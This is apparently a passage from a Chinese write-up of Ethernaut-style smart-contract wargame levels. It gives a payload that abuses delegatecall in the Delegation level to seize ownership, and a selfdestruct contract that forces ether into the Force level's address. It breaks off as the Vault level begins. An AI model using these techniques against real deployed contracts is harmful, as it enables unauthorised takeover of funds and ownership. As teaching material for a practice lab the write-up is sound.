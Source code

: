 ```javascript
}
```

&emsp;&emsp;我们可以看到**Delegation**的**fallback**函数中存在**delegatecall**而且其中的参数可以修改，这个时候我们可以直接调用**Delegate**实例的**pwn()**函数，payload如下：  

> contract.sendTransaction({data:web3.sha3("pwn()")})  

&emsp;&emsp;这个时候我们可以看到实例直接调用了非**public**的**pwn**函数,我们就实现了修改owner的操作。

---

#### 7. Force  

&emsp;&emsp;这一题是要你给这个合约转钱，这里除了一只噬元兽什么也没有...乍一看挺懵逼的  

```javascript
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)         //马德 为什么这个猫变形了...

*/}
```
&emsp;&emsp;要想给一个地址强行转钱，我们可以让一个合约自杀，然后钱就会被强行转入别的账户而且不能拒绝。所以我们就可以写个合约，随便打点钱，然后让他当场暴毙...好生刺激。   

```javascript
pragma solidity ^0.4.18;

contract Force{

}

contract payload{
    function payload() payable{}
    address addr_force = 0x0ad6047bf65c599bf68fbbc0372c3923280f2a66;
    function hit() public {
        selfdestruct(addr_force);
    }
}
```
&emsp;&emsp;这样一来，一执行hit()函数payload就凉凉，然后钱就打到了Force里面了，有没有一种舔狗的感觉...  

---

#### 8. Vault  

> **Target**: 解锁  

&emsp;&emsp;这道题主要考察了如何通过**web3**的**web3.eth.getStorageAt()**接口来查看区块上的信息。 

